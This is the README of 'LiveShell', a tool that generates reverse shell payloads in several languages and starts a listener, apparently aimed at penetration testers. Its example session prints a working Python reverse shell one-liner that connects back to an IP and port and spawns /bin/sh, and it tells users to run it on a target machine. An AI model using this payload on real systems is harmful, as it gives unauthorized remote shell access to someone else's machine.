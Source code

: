 
# LiveShell - Interactive Reverse Shell Generator

![LiveShell Banner](https://i.pinimg.com/736x/f5/b9/f0/f5b9f0bd95f86bf95ed21e8b1abf25d7.jpg)



### LiveShell: 
Is a powerful, interactive tool designed to generate reverse shell payloads in multiple programming languages. Whether you're a penetration tester, security researcher, or ethical hacker, LiveShell simplifies the process of creating reverse shells for various platforms and architectures.

---

## Features

- **Multi-Language Support**: Generate reverse shell payloads in Python, PHP, Bash, Netcat (nc), Perl, Ruby, Go, PowerShell, and JavaScript.
- **Interactive Interface**: User-friendly menu-driven interface for easy navigation.
- **Automated Listener**: Automatically starts a listener for the reverse shell connection.
- **Colorful Output**: Beautiful, hacker-style terminal output with colors for better readability.
- **Cross-Platform**: Works on Linux, macOS, and Windows (with WSL).



## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/0-d-a-y/liveshell.git
   
   cd liveshell
   
   chmod +x liveshell.py
   ```
### Run the tool
```bash
./liveshell.py
```
# Usage
### 1: Run the tool:

```bash
./liveshell.py
```
### 2: Follow the prompts:

⚬Enter your IP address.

⚬Enter the port to listen on.

⚬Choose a language for the reverse shell payload.

### 3: Copy the generated payload and execute it on the target machine.

### 4: The tool will automatically start a listener. Once the payload is executed, you'll get a reverse shell connection.

## Supported Languages
  ●  Python

  ●  PHP

  ●  Bash

  ●  Netcat (nc)

  ●  Perl

  ●  Ruby

  ●  Go

  ●  PowerShell

  ●  JavaScript

## Advantages
### Fast and Efficient: 
  ▸  Generate reverse shell payloads in seconds.

### No Manual Effort: 
  ▸  Automates the process of creating and testing reverse shells.

### Beginner-Friendly: 
  ▸  Simple, interactive interface for users of all skill levels.

### Extensible: 
▸ Easily add support for new languages or features.

## Example
```
[*] Welcome to LiveShell - Interactive Reverse Shell Generator!
[*] Please provide the following details:

[+] Enter your IP address: 192.168.1.100
[+] Enter the port to listen on (e.g., 4444): 4444

[*] Available languages:
1. Python
2. PHP
3. Bash
4. Netcat (nc)
5. Perl
6. Ruby
7. Go
8. PowerShell
9. JavaScript
[+] Choose a language (1-9): 1

[+] Reverse shell code for python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

[*] Starting listener on port 4444...
```

## Author

- [@livepwn](https://www.github.com/livepwn)
